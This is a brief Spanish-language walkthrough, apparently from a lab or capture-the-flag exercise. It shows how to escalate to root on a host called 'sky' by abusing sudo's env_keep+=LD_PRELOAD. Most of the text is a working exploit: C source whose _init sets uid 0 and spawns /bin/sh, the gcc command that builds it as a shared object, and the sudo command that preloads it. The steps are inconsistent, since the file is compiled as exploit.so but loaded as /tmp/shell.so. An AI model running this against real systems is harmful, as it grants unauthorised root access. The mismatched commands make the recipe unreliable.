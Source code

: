 # Ejecutamos que permisos tiene de ejecucion el usuario
`webdeveloper@sky:~$ sudo -l`
	
	Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

	User webdeveloper may run the following commands on sky:
    	(ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility

##### Si visualizamos LD_PRELOAD se puede explotar

##### Nos movemos a la carpeta /tmp
`$ cd /tmp`

##### Creamos un archivo llamado exploit con extension c
`$ nano exploit.c`

## Escribimos el siguiente codigo
	
	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>
	void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
	}

##### Lo guardamos y ahora lo compilamos de la siguiente manera
`$ gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`

##### Ahora ejecutamos el archivo con sudo
*Nota: se debe de ejecutar con el script que tenga permitido ejecutar como root*

`$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility`
